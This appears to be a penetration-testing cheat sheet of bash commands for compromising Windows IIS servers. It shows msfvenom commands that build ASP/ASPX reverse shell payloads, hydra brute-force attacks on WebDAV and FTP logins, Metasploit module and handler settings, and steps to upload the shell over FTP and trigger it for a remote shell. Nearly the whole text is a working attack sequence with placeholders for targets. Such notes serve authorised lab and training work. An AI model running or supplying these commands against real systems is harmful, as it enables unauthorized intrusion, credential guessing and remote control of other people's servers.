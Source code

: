 ```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f <file_type> > shell.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp
```

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```

```bash
# Targeting IIS/FTP
nmap -sV -sC -p21,80 <TARGET_IP>
## Try anonymous:anonymous
ftp <TARGET_IP>

## Brute-force FTP
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> ftp

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I

## Generate an .asp reverse shell payload
cd <TARGET>/
ip -br -c a
msfvenom -p windows/shell/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f asp > shell.aspx

## FTP Login with <USER>
ftp <TARGET_IP>
put shell.aspx

## msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST <LOCAL_IP>
set LPORT <LOCAL_PORT>

## Open http://<TARGET_IP>/shell.aspx . A reverse shell may be received.
```
